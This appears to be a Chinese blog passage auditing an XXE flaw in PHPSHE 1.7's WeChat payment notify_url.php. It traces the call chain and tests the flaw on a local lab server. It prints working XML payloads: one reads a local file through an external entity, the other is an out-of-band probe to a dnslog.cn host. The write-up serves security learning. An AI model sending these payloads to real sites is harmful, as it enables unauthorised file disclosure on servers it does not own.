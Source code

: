 ![1646698649133-a8a901e4-3d90-43cb-aed8-4d1b0931ff26.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913102656998-1483616373.png)

```plain
关键接受代码：$xml = file_get_contents("php://input");
这个代收代码简单的说就是接受所有的数据，POST也接受。

这个代码写在了pe_getxml这个函数里，那么继续搜索哪里调用了这串代码。
```

![1646699072483-b8617154-3309-46e0-bd10-b8fa3c947a9d.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913102657633-1313042304.png)

```plain
继续搜索wechat_getxml函数
```

![1646699179380-791af835-cd8e-4273-a876-f01993fcb354.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913102656751-1399907816.png)

```plain
思路回想一下：
漏洞函数在自定义函数pe_getxml里面-->找谁调用了pe_getxml函数-->找到调用pe_getxml函数的wechat_getxml函数，继续寻找谁调用了wechat_getxml函数，最后钟爱到了$xml = wechat_getxml();

审计流程：
1、漏洞函数simplexml_load_string
2、pe_getxml函数调用了漏洞函数
3、wechat_getxml调用了pe_getxml
4、notify_url.php调用了wechat_getxml
访问notify_url文件触发wechat_getxml函数,构造Paylod测试

漏洞产生的文件是D:\phpstudy_pro\WWW\phpshe1.7\include\plugin\payment\wechat\notify_url.php
那么直接访问漏洞地址http://127.0.0.1:8111/include/plugin/payment/wechat/notify_url.php

访问进行抓包：构造payload：
先尝试读取文件，
<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM  "file:///d:/www.txt">
]>
<user><username>&test;</username><password>Mikasa</password></user>
```

![1646700125869-8b3ad136-eb76-4f9e-8385-10a622803844.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913102913218-1346809926.png)

```plain
发现他没有读到内容，那么是什么问题呢？
1.不存在漏洞
2.无回显
3.文件不存在
4.payload不对

那么就用带外测试，解决文件不存在，无回显问题。如果带外不能成功，要么就是payload写错，要么就是没漏洞。
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://bepc1m.dnslog.cn">
    %file;
]>
<user><username>&send;</username><password>Mikasa</password></user>
```
